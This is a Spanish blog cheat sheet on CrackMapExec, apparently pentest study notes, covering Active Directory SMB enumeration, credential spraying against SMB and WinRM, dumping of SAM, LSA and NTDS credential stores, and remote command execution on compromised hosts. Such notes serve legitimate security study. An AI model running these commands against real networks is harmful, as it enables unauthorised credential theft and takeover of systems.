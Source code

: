 ```yaml
---
layout: single
title: Crackmapexec
excerpt: "herramienta para enumerar Active Directory, principalmente los servicios smb y winrm."
date: 2021-12-07
classes: wide
header:
  teaser: /assets/images/Tools/bash-icon.png
  teaser_home_page: true
  icon: /assets/images/tool.png
categories:
  - Tools
tags:
  - CLI
  - Active Directory

---
```



# Definición
**Crackmapexec** es una herramienta para enumerar [Active Directory](/Active-Directory/), principalmente los servicios smb y winrm.

# Uso 
Esta herraminta tine distintos modos de uso.

## Para enumerar información del AD.
```bash
crackmapexec smb 10.10.10.10
```

Aqui obtenemos el nombre del dominio, lo añadiremos en /etc/hosts para poder realizar futuros posibles ataques.
Tambien obtenemos información como si está firmado o si utiliza SMBv1 y el sistema operativo.


## Para comprobar usuarios válidos del AD.
```bash
crackmapexec smb -u <user>/<userfile> -p <pass>/<passfile>
```
En caso de que el usuario aparezca como "pwned" tendremos la capacidad de conectarnos mediante psexec.py.

## Para validar si un usuario tiene disponible winrm
Para esto el usuario deberá pertenecer al groupo **Remote Management Users**.

```bash
crackmapexec winrm -u <user>/<userfile> -p <pass>/<passfile>
```

Si aparece "pwned" podremos conectarnos mediante winrm.

## Stop-on-success
Esta herramienta por defecto para si encuentra un match válido, para que continue probando tenemos que añadir la flag ```--continue-on-success```

# Post-pwned
## Dumpear información
Con crackmapexec podemos dumpear la SAM, LSA o NTDS. Ver diferentes tipos de [[Almacenamiento de credenciales]]
### Workstation (sam)
#### Sin privilegios

```bash
crackmapexec smb -u <user> -p <pass> --local-auth
```

#### Con privilegios

```bash
crackmapexec smb -u <adminuser> -p <adminpass> --sam
```

### LSA

```bash
crackmapexec smb -u <adminuser> -p <adminpass> --lsa
```

### Domain controller (ntds)

Y en caso de ser un [domain controler](/Active-Directory/) podremos dumpear todo el ntds.

```bash
crackmapexec smb -u <adminuser> -p <adminpass> --ntds
crackmapexec smb -u <adminuser> -p <adminpass> --ntds vss
```

vss -> Uses the Volume Shadow copy Service

## Ejecutar comandos en usuarios "pwned"
Si tenemos credenciales válidas para usuarios "pwned",
podemos hacer que todos ejecuten un cierto comando.

```bash
crackmapexec smb -u <adminuser> -p <adminpass> -x <cmd>
```


---

Escrito el 07-12-2021 a las 06:04 pm por creep33.

